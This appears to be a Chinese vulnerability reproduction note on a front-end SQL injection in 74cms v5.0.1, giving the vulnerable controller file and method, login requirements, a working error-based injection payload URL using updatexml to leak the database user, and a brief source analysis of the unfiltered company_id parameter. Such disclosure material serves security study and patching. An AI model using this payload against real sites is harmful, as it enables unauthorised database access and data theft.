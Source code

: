 ```yaml
---
title: "74cms v5.0.1前台sql注入"
id: zhfly2795
---
```


# 74cms v5.0.1 前台sql注入

## 一、漏洞简介

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

## 二、漏洞影响

## 三、复现过程

### 具体信息

文件位置：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

```
http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](../img/18ca92dd70bafc9493f20840eb5c27e6.png)

### 源码分析：

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

company_focus 方法是参数化函数，$company_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![image](../img/b899b8cd0c34d7e28b6b5398b55d9a7e.png)

跟踪add_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![image](../img/fc31cf6834ac6390ddef158127ec1f3f.png)